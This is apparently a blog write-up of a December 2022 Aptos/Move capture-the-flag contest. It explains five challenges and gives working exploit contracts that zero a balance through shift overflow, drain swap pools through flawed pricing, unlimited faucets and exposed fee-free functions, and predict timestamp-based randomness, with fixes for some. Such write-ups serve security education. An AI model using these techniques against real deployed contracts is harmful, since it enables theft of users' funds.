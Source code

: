 ```yaml
---
weight: 5
title: "CTF MOVEment with Aptos Dec 2022 Writeup"
date: 2022-12-14T17:55:28+08:00
lastmod: 2022-12-14T17:55:28+08:00
draft: false
author: "Qi Qin"
authorLink: "https://leoq7.com"
description: "Writeup for CTF MOVEment with Aptos Dec 2022"
images: []
# resources:
# - name: "featured-image"
#   src: "featured-image.jpg"


tags: ["Web3", "CTF", "Move"]
categories: ["Web3"]

twemoji: false
lightgallery: true
---
```


## Preface

It's been half a year since I last wrote a blog. During that time, I've learned a lot about Web3 security, including Solana and Aptos. Before learning Solana and Aptos, I had some exposure to Ethereum during my freshman year. In my opinion, Solana and Aptos not only have a significant improvement in TPS over Ethereum, but the contracts written in Rust and Move are more secure; in terms of user-friendliness, the Move language is easier to use and less error-prone than Rust and Anchor. Last weekend, I participated in the CTF MOVEment with Aptos Dec 2022 jointly organized by MoveBit, Aptos, ChainFlag and OtterSec, and scored two first-bloods and two second-bloods in the four challenges except the sanity-check, ranking first in the end. In this post, I will briefly introduce the solutions to the five challenges.

<center class="img">
    <img src="./evolution.webp" width="90%">
    <p align="center" style="font-size:12px;">Image by <a src=https://medium.com/@kklas/smart-contract-development-move-vs-rust-4d8f84754a8f>Krešimir Klas</a></p>
</center>

## Challenge 1: checkin

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-1
- Link: http://47.243.227.164:20000/web/
- Score: 100
{{< /admonition >}}

### Target contract

The challenge 1 is a sanity-check to let players get familiar with how to use `aptos-cli` to communicate with the private chain where the challenge contract is deployed. There is a `get_flag` function in the contract, and once it's called it will emit an `Flag` event.

### Solution

After initializing an account and invoking the `get_flag` function via `aptos-cli`, we can submit the transaction hash to the challenge website, the server will check whether this transaction triggers the `Flag` event, and if so, the server will return the flag.

```bash
aptos init --assume-yes --network custom --rest-url http://8.218.146.10:9080 --faucet-url http://8.218.146.10:9081
aptos move run --assume-yes --function-id VICTIM_ADDRESS::checkin::get_flag
```


## Challenge 2: hello move

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-2
- Link: http://47.243.227.164:20001/web/
- Score: 200
{{< /admonition >}}

### Target contract

The challenge 2 is a simple challenge to let players get familiar with the Move language. The contract has five functions: `init_challenge`, `hash`, `discrete_log`, `add`, `pow` and `get_flag`. The `init_challenge` function is used to initialize the challenge by sending the caller a `Challenge` object with 5 members, `balance=10`, `q1=false`, `q2=false`, `q3=false`, and an event handler. `q1`, `q2`, `q3` indicates the solving status of the 3 sub-problems in this challenge, and these status will be checked in the `get_flag` function.

#### q1: hash

`q1` will be set to true if we invoke the `hash` function and provide a `guess: vector<u8>` satisfying `len(guess)==4 && keccak256(guess+"move")=="d9ad5396ce1ed307e8fb2a90de7fd01d888c02950ef6852fbc2191d2baf58e79"`.  This can be solved by writing a simple script to brute-force all the possible guesses, and the answer is `good`.

#### q2: discrete_log

In order to set `q2` to true, we need to provide a `guess: u128` satisfying `pow(10549609011087404693, guess, 18446744073709551616) == 18164541542389285005`, which is a classic discrete logarithm problem. We can solve this with `discrete_log(18164541542389285005,Mod(10549609011087404693,18446744073709551616))` in sage, and the answer is $3123592912467026955$.

#### q3: add

The sub-problem `q3` is more interesting. Similar to other checked math implementation, the [Shl and Shr operations in Move language](https://github.com/move-language/move/blob/main/language/move-vm/runtime/src/interpreter.rs#L1945-L1952) will raise an [ARITHMETIC_ERROR](https://github.com/move-language/move/blob/main/language/move-vm/types/src/values/values_impl.rs#L1568-L1604) if the shift amount is greater than or equal to the bit width of the operand as this is an undefined behavior. And the `Shl` operations won't raise `ARITHMETIC_ERROR` if there is an overflow. So we can shift the current balance $10$ to the left by more than $8$ bits to set the balance to $0$.

### Exploit contract

```rust
module solution::solution2 {

    use std::signer;
    use std::vector;

    use ctfmovement::hello_move;

    public entry fun solve(account: &signer) {
        hello_move::init_challenge(account);
        hello_move::hash(account, vector[103,111,111,100]);
        hello_move::discrete_log(account, 3123592912467026955);
        hello_move::add(account, 3, 5);
        hello_move::add(account, 3, 5);
        hello_move::get_flag(account);
    }

}
```

## Challenge 3: swap empty

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-3
- Link: http://47.243.227.164:20002/web/
- Score: 200
{{< /admonition >}}

### Target contract

This target contract implements a very simple swap protocol, which allows users to swap between two tokens `Coin1` and `Coin2`. The contract has a `get_coin` function to let the user get an airdrop of $5$ `Coin1` and $5$ `Coin2`, two functions `swap_12` and `swap_21` to swap between `Coin1` and `Coin2`, and a `get_flag` function checks whether the amount of `Coin1` or `Coin2` in the reserved account is `0`.

### Vulnerability

The vulnerability is the design of the `get_amouts_out` function. This contract uses a very naive way of calculating the amount of token that can be exchanged based on the ratio of `Coin1` and `Coin2` in the reserve account. However, this design is not safe, consider the following POC:

- Attacker get $5$ `Coin1` and $5$ `Coin2` from airdrop
  User: $5$ `Coin1`, $5$ `Coin2`; Reserve: $50$ `Coin1`, $50$ `Coin2`

- Attacker swap $5$ `Coin2` to $5\cdot\frac{50}{50}=5$ `Coin1`
  User: $10$ `Coin1`, $0$ `Coin2`; Reserve: $45$ `Coin1`, $55$ `Coin2`

- Attacker swap $10$ `Coin1` to $10\cdot\frac{55}{45}=12$ `Coin2`
  User: $0$ `Coin1`, $12$ `Coin2`; Reserve: $55$ `Coin1`, $43$ `Coin2`

- Attacker swap $12$ `Coin2` to $12\cdot\frac{55}{43}=15$ `Coin1`
  User: $15$ `Coin1`, $0$ `Coin2`; Reserve: $40$ `Coin1`, $55$ `Coin2`

- ...

By repeating this process, a malicious user could drain almost all the tokens in the reserved accounts.

### Exploit contract

```rust
module solution::solution3 {

    use std::signer;
    use std::vector;

    use aptos_framework::coin::{Self, Coin};

    use ctfmovement::pool::{Self, Coin1, Coin2};

    public entry fun solve(account: &signer) {
        pool::get_coin(account);

        let coin2 = coin::withdraw<Coin2>(account, 5);
        let coin1 = pool::swap_21(&mut coin2, 5);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin1 = coin::withdraw<Coin1>(account, 10);
        let coin2 = pool::swap_12(&mut coin1, 10);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin2 = coin::withdraw<Coin2>(account, 12);
        let coin1 = pool::swap_21(&mut coin2, 12);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin1 = coin::withdraw<Coin1>(account, 15);
        let coin2 = pool::swap_12(&mut coin1, 15);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin2 = coin::withdraw<Coin2>(account, 20);
        let coin1 = pool::swap_21(&mut coin2, 20);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        let coin1 = coin::withdraw<Coin1>(account, 24);
        let coin2 = pool::swap_12(&mut coin1, 24);
        coin::deposit<Coin2>(signer::address_of(account), coin2);
        coin::deposit<Coin1>(signer::address_of(account), coin1);

        pool::get_flag(account);
    }
}
```

### Possible fix

One possible fix is to use the following formula to calculate the number of tokens that can be exchanged, to ensure that the product of the two token amounts is always constant:

```rust
public fun get_amouts_out(pool: &LiquidityPool, amount: u64, order: bool): u64 {
    let (token1, token2) = get_amounts(pool);
    if (order) {
        return (amount * token2) / (token1 + amount)
    }else {
        return (amount * token1) / (token2 + amount)
    }
}
```

## Challenge 4: simple swap

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-4
- Link: http://47.243.227.164:20003/web/
- Score: 300
{{< /admonition >}}

### Target contract

This contract implements a Uniswap v2 like coin swap program that allows users to swap between `TestUSDC` and `SimpleCoin` with a $0.25\%$ fee rate and a $0.1\%$ bonus if a user swaps `TestUSDC` to `SimpleCoin`. In the initialization process, the admin added $10^{10}$ `TestUSDC` and $10^{10}$ `SimpleCoin` to the pool.  The `get_flag` function will check if the user has at least $10^{10}$ `SimpleCoin`, if so, the user will get the flag.

### Vulnerability

There are two vulnerabilities in this contract.

- The first vulnerability is that there is no limit on the amount of tokens that a user can claim via airdrop. An attacker can claim a large amount of tokens and then swap them to other tokens to drain the reserve pool.
- The second vulnerability is that the `swap_exact_x_to_y_direct` and `swap_exact_y_to_x_direct` functions are incorrectly exposed to the public. An attacker can call this function to swap tokens without paying the fee.

Combining these two vulnerabilities, an attacker could first claim a large amount of `TestUSDC` and then swap an amount of `TestUSDC` equal to the current reserve pool for `SimpleCoin` each time to drain half of the reserve pool while receiving a $0.1\%$ bonus. After $n$ repetitions, the amount of `SimpleCoin` in the reserve pool will be reduced to $10^{10}\cdot\frac{1}{2^n}$.

### Exploit contract

```rust
module solution::solution4 {

    use std::signer;
    use std::vector;

    use ctfmovement::simple_coin::{Self, SimpleCoin, CoinCap, TestUSDC};
    use ctfmovement::swap::{Self, LPCoin};
    use aptos_framework::coin::{Self, BurnCapability, MintCapability, FreezeCapability, Coin};

    public entry fun solve(account: &signer) {

        simple_coin::claim_faucet(account, 1000000000000000000);
        swap::check_or_register_coin_store<SimpleCoin>(account);
        let base = 10000000000; 
        let i = 0;
        while (i < 20) {
            let tusdc = coin::withdraw<TestUSDC>(account, base);
            let (simple_coin, simple_coin_reward) = swap::swap_exact_y_to_x_direct<SimpleCoin, TestUSDC>(tusdc);
            coin::deposit<SimpleCoin>(signer::address_of(account), simple_coin);
            coin::deposit<SimpleCoin>(signer::address_of(account), simple_coin_reward);
            base = base * 2;
            i = i + 1;
        };

        simple_coin::get_flag(account);
    }
}
```

### Possible fix

- Add a limit to the airdrop amount each account can claim
- Remove the `public` visibility modifier of the `swap_exact_x_to_y_direct<X, Y>` function to make it private

## Challenge 5: move lock v2

{{< admonition note "Challenge Info" >}}
- Source: https://github.com/movebit/ctfmovement-5
- Link: http://47.243.227.164:20004/web/
- Score: 400
{{< /admonition >}}

### Target contract

This contract generate a number by using a polynomial whose coefficients are generated by a string encrypted with script hash and several pesudorandom numbers. Flag event will be emitted if the user guess the correct number. It's obvious that it's almost impossible to guess the correct number since the number of possible numbers is $2^{128}$.

### Vulnerability

The vulnerability is that the pesudorandom number is generated with a timestamp in seconds and a counter. The counter is initialized to $0$ and will be increased by $1$ each time a random number is generated. Therefore, both the timestamp and the counter are predictable. An attacker can just reuse most of the code in the target contract to generate a same polynomial and the correct number directly.

```rust
module solution::solution5 {

    //
    // [*] Dependencies
    //
    use aptos_framework::transaction_context;
    use aptos_framework::timestamp;
    use aptos_framework::account;
    // use aptos_framework::event;

    // use aptos_std::debug;
    
    use std::vector;
    // use std::signer;
    use std::hash;
    use std::bcs;    
    
    //
    // [*] Structures
    //
    struct Polynomial has drop {
        degree : u64,
        coefficients : vector<u8>
    }

    struct Counter has key {
        value : u64
    }

    use ctfmovement::move_lock;

    const BASE : vector<u8> = b"HoudiniWhoHoudiniMeThatsHoudiniWho";
    
    //
    // [*] Module Initialization 
    //
    fun init_module(creator: &signer) {
        move_to(creator, Counter{ value: 0 })
    }

    public entry fun solve(account: &signer): bool acquires Counter  {
        let encrypted_string : vector<u8> = encrypt_string(BASE);
        
        let res_addr : address = account::create_resource_address(&@ctfmovement, encrypted_string);

        let bys_addr : vector<u8> = bcs::to_bytes(&res_addr);

        let i = 0;
        let d = 0;
        let cof : vector<u8> = vector::empty<u8>();
        while ( i < vector::length(&bys_addr) ) {

            let n1 : u64 = gen_number() % (0xff as u64);
            let n2 : u8 = (n1 as u8);
            let tmp : u8 = *vector::borrow(&bys_addr, i);

            vector::push_back(&mut cof, n2 ^ (tmp));

            i = i + 5;
            d = d + 1;
        };

        let pol : Polynomial = constructor(d, cof);

        let x : u64 = gen_number() % 0xff;
        let result = evaluate(&mut pol, x);
        
        move_lock::unlock(account, result)
    }
    
    //
    // [*] Local functions
    //
    fun increment(): u64 acquires Counter {
        let c_ref = &mut borrow_global_mut<Counter>(@solution).value;
        *c_ref = *c_ref + 1;
        *c_ref
    }

    fun constructor( _degree : u64, _coefficients : vector<u8>) : Polynomial {
        Polynomial {
            degree : _degree,
            coefficients : _coefficients
        }
    }

    fun pow(n: u64, e: u64): u64 {
        if (e == 0) {
            1
        } else if (e == 1) {
            n
        } else {
            let p = pow(n, e / 2);
            p = p * p;
            if (e % 2 == 1) {
                p = p * n;
                p
            } else {
                p
            }
        }
    }

    fun evaluate(p : &mut Polynomial, x : u64) : u128 {
        let result : u128 = 0;
        let i : u64 = 0;

        while ( i < p.degree ) {
            result = result + (((*vector::borrow(&p.coefficients, i) as u64) * pow(x, i)) as u128);
            i = i + 1;
        };

        result
    }

    fun seed(): vector<u8> acquires Counter {
        let counter = increment();
        let counter_bytes = bcs::to_bytes(&counter);

        let timestamp: u64 = timestamp::now_seconds();
        let timestamp_bytes: vector<u8> = bcs::to_bytes(&timestamp);

        let data: vector<u8> = vector::empty<u8>();
        vector::append<u8>(&mut data, counter_bytes);
        vector::append<u8>(&mut data, timestamp_bytes);

        let hash: vector<u8> = hash::sha3_256(data);
        hash
    }

    fun get_u64(bytes: vector<u8>): u64 {
        let value = 0u64;
        let i = 0u64;
        while (i < 8) {
            value = value | ((*vector::borrow(&bytes, i) as u64) << ((8 * (7 - i)) as u8));
            i = i + 1;
        };
        return value
    }

    fun gen_number() : u64 acquires Counter {
        let _seed: vector<u8> = seed();
        get_u64(_seed)
    }

    fun encrypt_string(plaintext : vector<u8>) : vector<u8> {
        let key : vector<u8> = transaction_context::get_script_hash();
        let key_len : u64 = vector::length(&key);

        let ciphertext : vector<u8> = vector::empty<u8>();

        let i = 0;
        while ( i < vector::length(&plaintext) ) {
            vector::push_back(&mut ciphertext, *vector::borrow(&plaintext, i) ^ *vector::borrow(&key, (i % key_len)));
            i = i + 1;
        };

        ciphertext
    }
}
```